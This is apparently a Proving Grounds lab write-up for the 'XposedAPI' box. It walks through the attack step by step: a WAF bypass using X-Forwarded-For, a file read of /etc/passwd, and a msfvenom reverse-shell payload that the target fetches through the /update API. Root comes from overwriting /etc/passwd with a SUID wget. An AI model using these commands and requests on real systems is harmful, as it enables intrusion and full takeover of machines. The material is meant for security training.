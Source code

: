 ```yaml
---
title: "XposedAPI - PG"
# author:
#   name: 0xKirito
#   link: https://github.com/0xKirito
date: 2022-01-16 07:07:10 +05:30
categories: [Writeups, Proving Grounds]
tags: [PG, API, SUID, wget]
render_with_liquid: false
---
```


## Recon & Enumeration

```bash
# autorecon
nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN full_tcp_nmap.txt 192.168.123.134
```

```
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGGcX/x/M6J7Y0V8EeUt0FqceuxieEOe2fUH2RsY3XiSxByQWNQi+XSrFElrfjdR2sgnauIWWhWibfD+kTmSP5gkFcaoSsLtgfMP/2G8yuxPSev+9o1N18gZchJneakItNTaz1ltG1W//qJPZDHmkDneyv798f9ZdXBzidtR5/+2ArZd64bldUxx0irH0lNcf+ICuVlhOZyXGvSx/ceMCRozZrW2JQU+WLvs49gC78zZgvN+wrAZ/3s8gKPOIPobN3ObVSkZ+zngt0Xg/Zl11LLAbyWX7TupAt6lTYOvCSwNVZURyB1dDdjlMAXqT/Ncr4LbP+tvsiI1BKlqxx4I2r
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCpAb2jUKovAahxmPX9l95Pq9YWgXfIgDJw0obIpOjOkdP3b0ukm/mrTNgX2lg1mQBMlS3lzmQmxeyHGg9+xuJA=
|   256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0omUJRIaMtPNYa4CKBC+XUzVyZsJ1QwsksjpA/6Ml+
13337/tcp open  http    syn-ack ttl 63 Gunicorn 20.0.4
|_http-title: Remote Software Management API
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: gunicorn/20.0.4
Aggressive OS guesses: Linux 2.6.32 (91%), Linux 2.6.32 or 3.10 (91%), Linux 2.6.39 (91%), Linux 3.10 - 3.12 (91%)
```

---

## Exploitation

- http://192.168.123.134:13337/logs 
- WAF: Access Denied for this Host.
- Google: WAF Access Denied for this Host bypass 
- https://medium.com/r3d-buck3t/bypass-ip-restrictions-with-burp-suite-fb4c72ec8e9c 
- `X-Forwarded-For:127.0.0.1` header 

```
GET /logs?file=/etc/passwd HTTP/1.1
Host: 192.168.123.134:13337
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<--SNIP-->
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
clumsyadmin:x:1000:1000::/home/clumsyadmin:/bin/sh
```

- We get the username: `clumsyadmin`
- Now our POST request works and we get a shell as user `clumsyadmin` once we restart the app by visiting `/restart`

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.123 LPORT=22 -f elf -o shell
python3 -m http.server 80
nc -lvnp 22
```

```
POST /update HTTP/1.1
Host: 192.168.123.134:13337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
DNT: 1
Sec-GPC: 1
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 60

{"user":"clumsyadmin", "url":"http://192.168.49.123/shell"} 
```

---

## Privilege Escalation 

- `find / -perm -4000 2>/dev/null`
- Privilege Escalation with wget SUID 
- `wget` has SUID bit set so we can use that to edit and replace `/etc/passwd` file with password for `root` user 
- Download the `/etc/passwd` file from the target and add some password hash for root user 
- `openssl passwd pass123 => Xh/bM.jezOXCo`
- `wget 192.168.49.123/passwd -O /etc/passwd`
- `su root => pass123`
- `whoami => root`

```
root@xposedapi:~# 
whoami && hostname && id && ifconfig | grep inet && cat proof.txt
root
xposedapi
uid=0(root) gid=0(root) groups=0(root)
        inet 192.168.123.134  netmask 255.255.255.0  broadcast 192.168.123.255
        inet 127.0.0.1  netmask 255.0.0.0
a82b28951444346478fab645553f55
```

